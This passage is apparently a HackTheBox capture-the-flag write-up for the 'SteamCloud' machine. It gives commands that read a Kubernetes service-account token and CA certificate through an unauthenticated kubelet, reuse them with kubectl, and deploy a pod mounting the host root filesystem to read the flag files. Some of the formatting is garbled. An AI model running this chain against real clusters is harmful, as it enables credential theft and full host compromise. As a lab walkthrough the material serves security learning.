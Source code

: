 
Look up tokens 
````
kubeletctl --server steamcloud.htb exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubelet%20tokke.png)

##  Look up certs
````
kubeletctl --server steamcloud.htb exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx

`````

With this info login to Kubectl

##  Export togen --> make token an environmental variable
```
export token="tokenreceived"
````

##  login to Kubectl
````
kubectl --token=$token --certificate-authority=ca.crt --server=https:##  10.10.11.133:8443 get pods


`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubelet%20list%20listening%20pods.png)

##  list allowed commands
````
kubectl --token=$token --certificate-authority=ca.crt --server=https:##  10.10.11.133:8443 auth can-i --list

`````

commands get, create and list are allowed
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubelet%20list%20allowed%20commands.png)

##  Create pod in the default namespace with yaml config file:
##  pod.yaml
````
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true


`````


![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/yaml%20configuration%20file%20for%20Kubelet.png)

##  Kubelets apply custom pod.yaml file
````
kubectl --token=$token --certificate-authority=ca.crt --server=https:##  10.10.11.133:8443 apply -f pod.yaml

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/kubectl%20apply%20yaml%20file.png)

##  list listening/open pods
````
kubectl --token=$token --certificate-authority=ca.crt --server=https:##  10.10.11.133:8443 get pods

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/kubectl%20list%20open%20pods.png)

##  read user.txt
````
kubeletctl --server 10.10.11.133 exec "cat /root/home/user/user.txt" -p nginxt -c nginxt

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/kubeletctl%20read%20user.txt.png)

##  read root.txt
````
kubeletctl --server 10.10.11.133 exec "cat /root/root/root.txt" -p nginxt -c nginxt

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/kubeletctl%20read%20root.txt.png)


XXXXXXXXXXXXXXXX
